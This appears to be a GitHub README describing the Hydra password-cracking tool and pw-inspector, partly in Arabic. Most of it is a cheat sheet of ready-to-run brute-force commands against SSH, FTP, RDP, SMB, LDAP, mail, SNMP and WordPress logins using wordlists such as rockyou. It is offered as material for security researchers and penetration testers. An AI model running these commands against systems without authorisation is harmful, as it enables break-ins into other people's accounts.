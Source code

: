 <h1>$${\color{blue}hydra}\space {\color{blue}tool }$$</h1>

# hydra

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.

It supports: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

Installed size: ```956 KB```

How to install: ```sudo apt install hydra```


<p align="center">
<img src="https://github.com/4bo4yman/T00LS/assets/156849852/ffd5bdea-2a41-4481-854f-c24a698deb41" >
</p> 

| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |

## hydra Usage Example
Attempt to login as the root user (```-l root```) using a password list (```-P /usr/share/wordlists/metasploit/unix_passwords.txt```) with 6 threads (```-t 6```) on the given SSH server (```ssh://192.168.1.123```):

EX:

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

<p align="center">
<img src="https://github.com/4bo4yman/T00LS/assets/156849852/e1e9537c-e794-48d8-b2c2-9b9d21728402" >
</p> 

*********

<h1>$${\color{blue}pw-inspector}\space {\color{blue}tool }$$</h1>


ولنفترض عندنا قائمة كلمات بها الالاف من الكلمات ذات عدد حروف مختلفة ولكننا نعلم ان password تبعنا مكونة من اربع حروف فقط ؟! 
فلماذا لا نستخدم جميع الكلمات ذات الحدود 4 حروف فقط ؟ ذلك سيوفر علينا العديد من الوقت
لدينا اداة جديدة توفر لنا تلك المهمة وهي ```pw-inspector```

## pw-inspector Usage Example

Read in a list of passwords (```-i /usr/share/wordlists/nmap.lst```) and save to a file (```-o /root/passes.txt```), selecting passwords of a minimum length of 6 (```-m 6```) and a maximum length of 10 (```-M 10```):

EX:

```
pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 10
```
Practice:

![image](https://github.com/4bo4yman/T00LS/assets/156849852/28fe91e4-22f7-470f-8173-c78d45f70ad9)

![image](https://github.com/4bo4yman/T00LS/assets/156849852/1bd38f1f-7074-474d-b5e4-80532587cd5e)








